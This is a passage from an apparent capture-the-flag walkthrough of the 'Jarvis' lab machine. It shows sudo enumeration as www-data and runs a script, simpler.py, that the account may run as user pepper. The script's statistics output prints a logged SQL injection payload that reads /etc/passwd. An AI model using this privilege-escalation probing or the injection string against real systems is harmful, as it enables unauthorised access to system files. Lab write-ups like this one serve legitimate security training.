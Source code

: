 ```bash
www-data@jarvis:/var/www/html$ sudo -l
sudo -l
Matching Defaults entries for www-data on jarvis:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on jarvis:
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
```

Let's run the script and observe its behavior.

```bash
www-data@jarvis:/var/www/html$ sudo -u pepper /var/www/Admin-Utilities/simpler.py
< sudo -u pepper /var/www/Admin-Utilities/simpler.py
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************


********************************************************
* Simpler   -   A simple simplifier ;)                 *
* Version 1.0                                          *
********************************************************
Usage:  python3 simpler.py [options]

Options:
    -h/--help   : This help
    -s          : Statistics
    -l          : List the attackers IP
    -p          : ping an attacker IP
```

There are three options to choose;
- `-s` : Show statistics.
- `-l` : List the attackers IP.
- `-p` : Ping an attacker IP.

```bash
www-data@jarvis:/var/www/html$sudo -u pepper /var/www/Admin-Utilities/simpler.py -s
<do -u pepper /var/www/Admin-Utilities/simpler.py -s
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************

Statistics
-----------
Number of Attackers: 1
Most Risky:
    10.10.14.4 - Attack Level : 3 Request: : GET /site/\'%20UNION%20ALL%20SELECT%20FileToClob(\'/etc/passwd\',\'server\')::html,0%20FROM%20sysusers%20WHERE%20username=USER%20--/.html
```